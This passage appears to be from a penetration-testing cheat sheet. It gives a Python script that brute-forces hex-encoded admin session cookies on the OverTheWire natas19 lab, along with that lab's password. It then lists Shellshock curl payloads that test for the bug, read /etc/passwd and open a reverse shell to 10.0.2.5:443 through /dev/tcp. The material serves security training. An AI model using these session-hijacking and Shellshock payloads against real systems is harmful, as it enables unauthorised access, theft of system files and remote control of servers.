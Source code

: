 ```python
        else:
                print(r.text)
                break
```
{% endtab %}

{% tab title="Brute force non-sequential cookie" %}
```python
#If we see the cookie is something like 3137342d61646d696e --> hex, we can decode it:
echo "3137342d61646d696e" | xxd -r -p
174-admin

#So now we can create a script to guess the number that accompanies admin:
#/usr/bin/python3

import requests

url = 'http://natas19.natas.labs.overthewire.org/'

s = requests.Session()
s.auth = ('natas19', '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs')

for x in range(641):
        cookie = (str(x) + '-admin').encode('utf-8')
        cookie = cookie.hex()             # convert string cookie to hex
        cookie = dict(PHPSESSID=cookie)   # this is the way to send a cookie
        r = s.get(url, cookies=cookie)    # only get is necessary if we already logged in with admin username
        if "Login as an admin" in r.text:
                pass
        else:
                print(r.text)
                break
```
{% endtab %}
{% endtabs %}

## Shellshock

If /cgi-bin/, .cgi, .pl, .sh files are found in a web server --> think of this attack

[https://blog.cloudflare.com/inside-shellshock/](https://blog.cloudflare.com/inside-shellshock/)

`User-Agent: () { : ;}` --> Inject here the payload

```bash
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' $URL 2>/dev/null| grep 'VULNERABLE'
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'"

#Blind with sleep 
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' $URL

#IF ONE OF THE ABOVE WORKS, TRY REVERSE SHELL
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.2.5/443 0>&1' $URL
```
